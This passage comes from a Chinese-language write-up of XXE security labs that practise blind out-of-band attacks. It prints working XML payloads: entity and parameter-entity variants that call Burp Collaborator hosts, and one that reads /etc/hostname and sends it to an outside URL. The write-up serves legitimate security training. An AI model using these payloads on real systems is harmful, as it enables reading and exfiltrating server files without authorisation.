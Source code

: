 得到了`AccessKeyId : zodWGVQ6CKBdfFlsEnxV`

#### 3. Blind XXE with out-of-band interaction

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY remote SYSTEM "http://rb6bjptx2t6bbqrzsflviaktokuaiz.burpcollaborator.net">
]>
<stockCheck><productId>&remote;</productId><storeId>1</storeId></stockCheck>
```

完成。

#### 4. Blind XXE with out-of-band interaction via XML parameter entities

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY remote SYSTEM "http://6mtaeqqnawen8cgx8t3j6jvi79dz1o.burpcollaborator.net">
]>
<stockCheck><productId>&remote;</productId><storeId>1</storeId></stockCheck>
```

用上面这个被禁了，但是用下面这个发现可以。

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY remote SYSTEM "http://6mtaeqqnawen8cgx8t3j6jvi79dz1o.burpcollaborator.net">
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

说明不能在下面用实体。改用参数形式。

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://6mtaeqqnawen8cgx8t3j6jvi79dz1o.burpcollaborator.net">
%remote;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

成功。

#### 5. Exploiting blind XXE to exfiltrate data using a malicious external DTD

> To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

```xml-dtd
POST:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://jm9ne3q0a9e08pga863w6wvv7mde13.burpcollaborator.net?p=%file;'>">
%init;
%send;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
